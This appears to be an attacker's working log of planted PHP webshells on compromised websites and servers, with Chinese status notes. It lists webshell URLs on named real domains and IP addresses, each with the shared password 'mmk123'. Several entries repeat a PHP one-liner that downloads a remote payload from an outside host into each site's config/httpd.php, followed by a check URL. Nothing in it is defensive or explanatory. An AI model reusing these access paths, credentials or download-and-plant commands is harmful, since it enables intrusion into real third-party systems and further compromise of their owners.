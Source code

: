 https://www.sdbcsw.com/apps/home/model//m1.php |mmk123 |  39.107.65.243
代码更新：0608 ✅
https://www.sdbcsw.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www.sdbcsw.com/config/httpd.php?d=up

https://www.maifusd.com/static/upload/image/20231219/m1.php |mmk123 |  39.107.65.243
代码更新：0608 ✅
https://www.maifusd.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www.maifusd.com/config/httpd.php?d=up

https://www.gx-biosensor.com/uploads/210329/210329/210329/210329//m1.php |mmk123 |  39.107.65.243 未执行
https://www.bkmjxs.cn/uploads/20211106//m1.php |mmk123 |  39.107.65.243 未执行
https://www.bkfhauv.com/static/ueditor/php/m1.php |mmk123 |  39.107.65.243 未执行
https://www.biobasebaby.com/uploads/images/20210621/m1.php |mmk123 |  39.107.65.243
http://xibao.gx-biosensor.com/template/template_init.php |mmk123 |  39.107.65.243

http://8.138.92.89/template/template_init.php |mmk123 
代码更新：0608 ✅
http://8.138.92.89/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://8.138.92.89/config/httpd.php?d=up

http://118.163.231.86/template/template_init.php |mmk123  连接不上
http://118.163.231.86/template/template_init.php |mmk123  
http://218.161.43.88/template/template_init.php |mmk123   
http://118.163.231.90/template/template_init.php |mmk123  
http://t.isfn.cc//template/template_init.php |mmk123 |  118.163.231.85
http://118.163.231.85/template/template_init.php |mmk123 
http://demo.senfengkeji.com/template/template_init.php |mmk123 |  81.70.153.248
http://218.161.43.89/template/template_init.php |mmk123 
http://118.163.231.88/template/template_init.php |mmk123 
http://118.163.231.87/template/template_init.php |mmk123 

http://122.152.219.122/template/template_init.php |mmk123 
代码更新：0608 ✅
http://122.152.219.122/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://122.152.219.122/config/httpd.php?d=up

http://47.106.151.193/template/template_init.php |mmk123 
代码更新：0608 ✅
http://47.106.151.193/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://47.106.151.193/config/httpd.php?d=up
